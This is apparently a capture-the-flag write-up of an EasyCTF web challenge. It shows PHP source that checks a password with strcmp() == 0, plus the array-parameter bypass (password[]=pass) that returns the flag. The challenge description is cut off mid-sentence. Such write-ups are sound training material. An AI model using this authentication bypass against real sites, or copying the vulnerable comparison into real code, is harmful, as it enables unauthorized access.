 ```yaml
---
layout: writeup
title: Pretty Horrible Programming
level: 
difficulty: 
points: 
categories: []
tags: []
flag: easyctf{never_trust_strcmp}
---
```

**Challenge**  
Given a website with a

**Solution**  
In the source we see a comment

     <!-- SOURCE AT index.source.php --></span>

This leads us to the following file

    <code><span style="color: #000000">
     <html >
         <head >
             <title >Welcome to my awesome site! </title >
             <link rel="stylesheet" href="//maxcdn.bootstrapcdn.com/bootswatch/3.3.4/cerulean/bootstrap.min.css" / >
         </head >
         <body >
             <nav class="navbar navbar-default" >
                 <div class="container" >
                     <div class="navbar-header" >
                         <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#main-navbar" >
                             <span class="sr-only" >Toggle navigation </span >
                             <span class="icon-bar" > </span >
                             <span class="icon-bar" > </span >
                             <span class="icon-bar" > </span >
                         </button >
                         <a class="navbar-brand" href="/" >Super Secret Content </a >
                     </div >
                 <div class="collapse navbar-collapse" id="main-navbar" >
                     <ul class="nav navbar-nav" >
                         <li > <a href="/" >Home </a > </li >
                     </ul >
                 </div >
             </nav >
    
             <div class="container" >
            <span style="color: #0000BB"> <?php
                </span><span style="color: #007700">include(</span><span style="color: #DD0000">"stuff.php"</span><span style="color: #007700">); </span><span style="color: #FF8000">// get $pass and $flag
    
                </span><span style="color: #0000BB">$auth </span><span style="color: #007700">= </span><span style="color: #0000BB">false</span><span style="color: #007700">;
                if (isset(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"password"</span><span style="color: #007700">])) {
                    if (</span><span style="color: #0000BB">strcmp</span><span style="color: #007700">(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"password"</span><span style="color: #007700">], </span><span style="color: #0000BB">$pass</span><span style="color: #007700">) == </span><span style="color: #0000BB">0</span><span style="color: #007700">) {
                        </span><span style="color: #0000BB">$auth </span><span style="color: #007700">= </span><span style="color: #0000BB">true</span><span style="color: #007700">;
                    }
                }
                if (</span><span style="color: #0000BB">$auth</span><span style="color: #007700">) {
                    echo </span><span style="color: #DD0000">"Wow! You guessed my password! Here's my super secret content: " </span><span style="color: #007700">. </span><span style="color: #0000BB">$flag</span><span style="color: #007700">;
                } else { </span><span style="color: #0000BB">? >
    </span>                 <p >Sorry, but you'll have to enter the password to see my super secret content. And it's not "password"! </p >
                     <div class="row" > <form class="form-horizontal" action="index.php" method="GET" >
                         <div class="col-xs-9" >
                             <input class="form-control" type="password" name="password" placeholder="Password" / >
                         </div >
                         <div class="col-xs-3" >
                             <input class="btn btn-primary" type="submit" value="View Super Secret Content" / >
                         </div >
                     </form > </div >
                <span style="color: #0000BB"> <?php </span><span style="color: #007700">}
            </span><span style="color: #0000BB">? >
    </span>         </div >
    
             <script type="text/javascript" src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js" > </script >
             <script type="text/javascript" src="//maxcdn.bootstrapcdn.com/bootstrap/3.3.4/js/bootstrap.min.js" > </script >
         </body >
     </html >
    
    </code>
{: .language-php}

We see that it uses strcmp function to validate, we can bypass this by
passing an array named password rather than a variable.

    http://web.easyctf.com:10201/index.php?password[]=pass

This gives us the key

    Warning: strcmp() expects parameter 1 to be string, array given in /var/www/php2/index.php on line 31
    Wow! You guessed my password! Here's my super secret content: easyctf{never_trust_strcmp}

